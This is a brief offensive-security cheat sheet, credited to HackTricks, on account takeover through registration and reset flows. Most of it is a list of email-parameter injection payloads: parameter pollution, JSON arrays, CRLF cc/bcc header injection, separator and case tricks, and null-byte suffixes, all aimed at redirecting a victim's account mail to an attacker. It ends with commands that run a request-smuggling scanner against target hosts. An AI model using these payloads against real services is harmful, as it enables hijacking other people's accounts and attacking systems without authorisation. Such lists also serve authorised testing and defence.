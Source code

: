 ```yaml
---
description: '( Credits: HackTricks )'
---
```


# Registration & Takeover Bugs

#### **ATO from manipulating the email Parameter**

```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d** 
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```

#### ATO Via Request Smuggling

```python
# Single Host: 
python3 smuggler.py -u <URL> 
# List of hosts: 
cat list_of_hosts.txt | python3 smuggler.py
```
